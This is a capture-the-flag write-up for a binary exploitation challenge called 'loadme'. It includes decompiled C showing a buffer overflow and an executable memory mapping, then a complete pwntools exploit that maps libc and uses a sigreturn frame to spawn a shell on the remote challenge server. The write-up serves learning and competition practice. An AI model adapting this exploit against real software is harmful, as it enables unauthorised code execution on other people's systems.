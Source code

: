 The round 1 challenge was named loadme and had the description "I mean it does get easier than this. It's just a question of how well you know your basics"

### Analysis
After reversing it in ghidra, we get the following decompiled code
```C
undefined8 main(void)
{
  size_t filenameSize;
  char *c;
  undefined buf [256];
  char filename [264];
  void *ptr;
  size_t filesize;
  FILE *fp;
  
  memset(filename,0,0x100);
  printf("Enter file you want to read: ");
  fgets(filename,0x100,stdin);
  filenameSize = strcspn(filename,"\n");
  filename[filenameSize] = '\0';
  printf("[*] Reading %s into memory...\n",filename);
  fp = fopen(filename,"rb");
  if ((((fp != (FILE *)0x0) && (c = strstr(filename,"flag"), c == (char *)0x0)) &&
      (c = strstr(filename,"loadme"), c == (char *)0x0)) &&
     (c = strstr(filename,"bin"), c == (char *)0x0)) {
    fseek(fp,0,2);
    filesize = ftell(fp);
    fseek(fp,0,0);
    ptr = mmap((void *)0x13370000,filesize,7,0x21,-1,0);
    memset(ptr,0,filesize);
    fread(ptr,1,filesize,fp);
    fclose(fp);
    printf("I\'m sorry, I never asked for your name: ");
    read(0,buf,0x400);
    return 0;
  }
  puts("Error: Invalid file.");
  return 1;
}
```

The program first asks for a file path, replaces the newline character with a null (if any) and then opens the file. The filename cannot contain the string "flag", "loadme" or "bin". Then the file size is calculated, `mmap` is called with the file size and the contents are copied in the pages returned by `mmap` then it reads 0x400 (1024) bytes in a buffer of size 0x100 (256) which is a clear buffer overflow. Taking a look at the binary permissions, we see that it has Full RELRO, PIE and NX but no canary.

### Exploitation
The PIE threw me off and I thought it was an error on the organizers side. After confirming that PIE was intended, I was puzzled. I completely ignored the mmap arguments.

Then first hint was released and it read "_Maybe the `mmap` chunk has funny permissions_". Then I saw that the `prot` (protections) argument was set to `7` which means that `mmap` will return a page that has `RWX` permissions. It became apparent that we had to jump to the chunk to execute code in it and we could do that because the address of the chunk was fixed to `0x133713370000`.

My next attempt was to somehow open stdin using the file open and read shellcode in to `mmap` chunk and jump to it. I tried opening stdin using `/proc/self/fd/0` and `/dev/stdin`. Both didn't work since these files are un-seekable and `ftell` would return `-1`. This was resulting in a crash since in `memset`.

Then second hint was released and it read "_Try opening a file that will give you some useful 'gadgets'_". The brain jumped to the conclusion that it was libc that we were supposed to open. For some reason, I thought we could only jump to one address in libc (dumb I know) and I tried to jump to one-gadget. None worked.

When 3 minutes and 29 seconds left, the third hint was released and it read something along the lines of _Running one-gadgets might work as expected, how else can you do instead \*\*CALL\*\*ing \*\*SYS\*\*tem_. The highlighted fragments made the string "syscall" and my brain was all around the place trying to come up with a solution and I was under a lot of pressure since it was the first challenge and only 3 minutes were left. I somehow managed to remember SigReturn Oriented Programming (SROP) and pulled the pwntools docs for the syntax, made an execve syscall frame and found a gadget that would make the `sigreturn` syscall and just executed the payload on remote without testing locally. It worked and I executed `./submitter 18`  and completed the challenge.

### Exploit
Here's the final exploit

```py
#!/usr/bin/env python3
from pwn import *

def start() -> tube:
    if args.REMOTE:
        return remote("challs.airoverflow.com", 63440)
    else:
        return elf.process()
    
def attach_gdb() -> None:
    if args.REMOTE or args.NOGDB:
        return
    
    gdb.attach(p, '''
    b *main +533
    continue
               ''')
    input("ATTACHED?")

context.binary = elf = ELF("./loadme")
libc = elf.libc

p = start()

p.sendlineafter(": ", "/lib/x86_64-linux-gnu/libc.so.6")

ret = SigreturnFrame()
ret.rdi = 0x13370000 + 0x1cb42f
ret.rsi = 0
ret.rdx = 0
ret.rax = 0x3b
ret.rip = 0x13370000 + 0x00000000000288b5 # syscall; ret

payload = b'A'*552 + p64(0x13370000 + 0x0000000000045320) + \ # mov rax, 0xf, syscall
          bytes(ret)
p.sendlineafter(": ", payload)

p.interactive()
p.close()
```

### Comments
In retrospect, if I didn't make assumptions, closely at the primitives and made a plan without considering the pressure, I would have done ROP. Lesson learned.
Overall, the challenge was unconventional and awesome. It really did test your basics and my brain that has a habit of overcomplicating simple things.